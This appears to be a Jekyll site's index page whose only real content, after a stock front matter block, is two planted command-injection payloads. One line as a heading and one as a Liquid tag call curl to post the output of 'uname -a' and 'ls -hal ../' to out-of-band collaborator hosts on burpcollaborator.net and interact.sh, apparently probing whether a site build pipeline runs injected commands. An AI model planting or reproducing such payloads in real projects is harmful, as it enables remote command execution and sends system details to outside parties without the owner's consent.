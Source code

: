 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


# command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)"
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output=$(ls -hal ../)" %}
